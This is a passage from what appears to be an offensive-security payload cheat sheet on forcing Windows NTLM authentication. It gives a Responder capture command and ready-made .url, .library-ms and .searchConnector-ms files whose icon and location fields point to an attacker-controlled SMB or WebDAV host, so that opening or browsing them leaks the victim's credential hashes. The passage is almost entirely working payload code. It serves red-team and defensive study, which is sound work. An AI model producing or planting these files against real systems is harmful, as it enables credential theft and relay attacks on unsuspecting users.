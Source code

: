This attack also works with `.url` files and `responder -I eth0 -v`.

```powershell
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### Windows Library Files

> Windows Library Files (.library-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

### Windows Search Connectors Files

> Windows Search Connectors (.searchConnector-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```
